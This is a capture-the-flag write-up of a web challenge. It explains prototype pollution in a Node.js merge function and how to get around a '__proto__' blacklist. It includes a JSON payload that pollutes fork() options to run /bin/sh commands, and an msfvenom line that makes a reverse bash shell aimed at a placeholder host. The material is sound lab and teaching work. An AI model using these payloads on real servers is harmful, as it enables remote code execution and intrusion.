







##### Web - Medium

#### Description:
```
You and your buddy corrected the math in your physics teacher's paper on the decay of highly excited massive string
states in the footnote of a renowned publication. He's just failed your thesis out of spite, for making a fool out
of him in the university's research symposium. Now you can't graduate, unless you can do something about it... 🤷
```


- Upon entering the URL, a simple web page is provided.  

	
- The user can choose between two names and press the "Did I pass?" button. Regardless of the user choice, the result is the same :) 
	

- Let's intercept the request in Burp:

	

- Nothing worth noting so far. It's time to look at the provided source code:

```js
router.get('/debug/:action', (req, res) => {
	return DebugHelper.execute(res, req.params.action);
});

router.post('/api/calculate', (req, res) => {
	let student = ObjectHelper.clone(req.body);
	
	if (StudentHelper.isDumb(student.name) || !StudentHelper.hasBase(student.paper)) {
	return res.send({
	'pass': 'n' + randomize('?', 10, {chars: 'o0'}) + 'pe'
	});
	}

	return res.send({
	'pass': 'Passed'
	});
});
```

- Having a look at the DebugHelper.js file:
```js
execute(res, command) {
	res.type('txt');
	if (command == 'version') {

		let proc = fork('VersionCheck.js', [], {
			stdio: ['ignore', 'pipe', 'pipe', 'ipc']
		});
	proc.stderr.pipe(res);
	proc.stdout.pipe(res);
	return;
	}

	if (command == 'ram') {
		return res.send(execSync('free -m').toString());
	}

	return res.send('invalid command');
}
```

- The execute command accepts two parameters, **ram** or **version**. Ram acts as a free function, but when executed, it reveals that the command is not even installed on the remote server `:laughing:`.
- The version param creates a child process that executes `VersionCheck.js` and pipes stdout and stderr to the parent process'.  
- We gain valuable information, such as the Node JS version that is used. Granted this is simulating a **"white box assessment"**, it is of no real value, since we could've just checked package.json, but from a black box perspective, this information can be vital.  :)
- This could also be a hint that a vulnerable node version is the entry point of this challenge, since the verison is so old (Node v12, comparted to the current v18 as of writing this `29/06/2023` )

- The `ObjectHelper.js` file is where the vulnerability resides: 
```js
module.exports = {
	isObject(obj) {
	return typeof obj === 'function' || typeof obj === 'object';
	},

	isValidKey(key) {
	return key !== '__proto__';
	},

	merge(target, source) {
		for (let key in source) {
			if (this.isValidKey(key)){
				if (this.isObject(target[key]) && this.isObject(source[key])) {
					this.merge(target[key], source[key]);
				} else {
				target[key] = source[key];
				}
			}
		}
		return target;
},
	clone(target) {
	return this.merge({}, target);
	}
	
}
```

- Evident prototype pollution here. If you are unfamiliar with proto pollution, I highly recommend this article from the Port Swigger Web Academy : https://portswigger.net/web-security/prototype-pollution, they go in-depth on this topic. 
 
- TLDR: In JavaScript, objects are created from prototypes, which serve as templates or blueprints for defining object properties and methods. Each object has an internal reference to its prototype, accessible through the `__proto__` attribute. By modifying this attribute, an attacker can introduce new properties or modify existing ones in the target object, even if it was not originally intended.

- Here's a great diagram provided by Snyk:

  	

- In our case, there is one catch: the server makes a validation that a key must be different from `__proto__` . Following this article from HackTricks (https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution), we get the following info:

	

- So even if `__proto__` is blacklisted, we can just use `object.constructor.prototype`. There are a few differences between the two: 
	- `myobject.constructor.prototype` will only affect objects created from the `myobject` type. 

- The application builds new objects directly from the information provided in the request body, so the effect will be the same as if `__proto__` is used: 
	```js
	let student = ObjectHelper.clone(req.body);
	```

- Now we need to look for a pollution gadget. We saw that the application used `fork()` in the `<URL>/debug/version` endpoint. Using online resources, we can find how to exploit it:
https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution/prototype-pollution-to-rce

 

- Trying this in burp:


- Payload:
```json
{
   "name":"Kenny Baker",
   "constructor":{
      "prototype":{
         "execPath":"/bin/sh",
         "argv0":"/bin/sh",
         "execArgv":[
            "-c",
            "ls"
         ]
      }
   }
}
```

- Access the `/debug/version` endpoint to trigger the pollution:


- From here, just spawn a reverse shell.
```bash
msfvenom -p cmd/unix/reverse_bash LHOST=<IP> LPORT=<PORT> -f raw -o shell.sh
```

